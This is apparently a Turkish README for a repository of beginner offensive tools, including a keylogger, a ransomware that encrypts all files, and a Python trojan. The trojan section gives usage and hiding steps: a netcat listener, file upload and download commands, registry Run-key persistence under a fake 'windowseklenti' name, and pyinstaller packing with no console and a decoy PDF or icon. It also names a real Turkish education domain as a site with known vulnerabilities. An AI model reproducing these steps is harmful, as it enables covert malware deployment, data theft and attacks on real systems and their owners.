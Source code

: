# NOT </br>
ilk commitde zip halinde farklı araçlarda vardır bunlar; </br>
ip degistirici </br>
mıtm savunma man in the midle ve </br>
ransom_virus = bu virüs bütün dosyaları  şifreler. </br>

# Basit_Hacker_aracı </br>
linuxda indirip yada var olan araçların bash komutları ile kullanılarak yapılmıştır. yani bu araçalrın bash komutlarını otomatikleştiren yazılımlardır.

# Ag Tarayıcı </br>
pip install scapy

# Veri Analizi </br>
pip3 install scapy-http
www.meb.k12.tr -> bilerek açıkları olan web sitesi

# Whatsapp Bot </br>
chrome üzerinden eskry for chrome eklentisini ekliyoruz.
firefox kurmamış gerek bide
firefox driver for selenium github dan geckodriver indiriyoruz.
pip install selenium
bir gmail hesabı açıyoruz ve hesap güvenliği kısmından daha az güvenli uygulama erişimini açmamız gerek. whatsapp botumuz için.

# Keyloger </br>
pip install pynput

# Trojan </br>
test etkmek için hede makineyi bilgisayarımızdan dinlememiz gerek bunun için nc -l -p 888 yapabiliriz.veya dinleyici.py çalıştır.
paketleme
pip install simplejson
dosyalar arasi gezinmek için
cd ve cd path(örn cd ..)
dosya indirmek için indir file_path
dosya yüklemek için yükle file_path upload_path
çökmesini engelmmek için try except blokları eklendi
sisteme yerleşme için:
regedit (kayıt defteri düzenleyicisi) :HYKEY_Curren USer sofware microsoft windows CurrentVersion Run içine gelip
yeni diyip bir değer kaydedebilriiz fakat bunu kod üzerinden yapıcaz biz. bunu için
cmd içinde reg add dosya_yolu(CurrentVersion->Run içi) /v windowseklenti(isim) /t REG_SZ(türü) /d "C:\users\IEUser\AppData\system.exe"(programın yolu)
bunu biz kodlama üzerinden  yapıcaz.
exe çevirmek için
pip instal pyinstaller
pyinstaller truva.py --onefile  -> exe dosyasına çevirir. --onefile bütün importları tek sayfada birleştirir.
kullanım:
yerles windowseklenti(isimver gpeditde gözükecek)
gizli çalışma:
pyinstaller truva.py --onefile --noconsole --icon icon_uzantı --add-data "pdf/resim_yolu=>\Dektop\5.pdf;."
veya resim ve icon eklemek için normal truva araçları ile yapılabilir.
eklenecekler:
menü kısmı -> komutların kullanımı.


# Instagram Bot </br>
chropath eklentisini chrome a kuruyoruz. hangi özelliklerin tek oldugunu kullanılabileceğini gösterir.
pip install pyautogui




